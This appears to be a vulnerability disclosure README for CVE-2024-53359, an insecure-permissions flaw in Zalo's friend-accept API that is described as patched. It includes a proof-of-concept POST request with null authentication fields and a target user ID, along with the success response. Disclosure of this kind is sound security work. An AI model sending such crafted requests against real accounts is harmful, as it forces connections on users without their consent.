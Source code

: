 # CVE-2024-53359: Zalo API Vulnerability Allows Adding Friends Without Consent

## Overview
A vulnerability in Zalo (v23.09.01) allows attackers to add friends without user consent by exploiting insecure permissions in the API. Discovered in April 2024, this issue was patched by Zalo on April 15, 2024.

---

## Details

### Affected API
- **Endpoint**: `ACCEPT_FRIEND`  
  **URL**: `https://friend.talk.zing.vn/api/friend/accept`

### Exploit
By sending a crafted POST request to the `ACCEPT_FRIEND` endpoint with specific parameters, attackers could force a friend connection without user approval.  

Example POST request:
```http
POST https://friend.talk.zing.vn/api/friend/accept
Content-Type: application/json

{
  "actiontime": 1,
  "api_key": "NULL",
  "avatarSize": 120,
  "clientType": 1,
  "session_key": "NULL",
  "sign": "NULL",
  "ts": "NULL",
  "userId": 397726729,
  "sig": "NULL"
}
```

If the server returns:
```json
{
  "code": 0
}
```
It means the friend request was successfully accepted.

---

## Impact
- **Type**: Insecure Permissions
- **Effect**: Allows unauthorized friend connections if the attacker's side has your phone number.
- **CVSS Score**: 5.3 (Medium)

---

## Timeline
- **Discovery**: Early April 2024  
- **Fix Released**: April 15, 2024  

---

## Embedded Video
Here is a detailed video explanation of the vulnerability:

<video controls width="800">
  <source src="/video/video-explanation.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

---

## Disclaimer
This document is for informational purposes only. Do not exploit this vulnerability.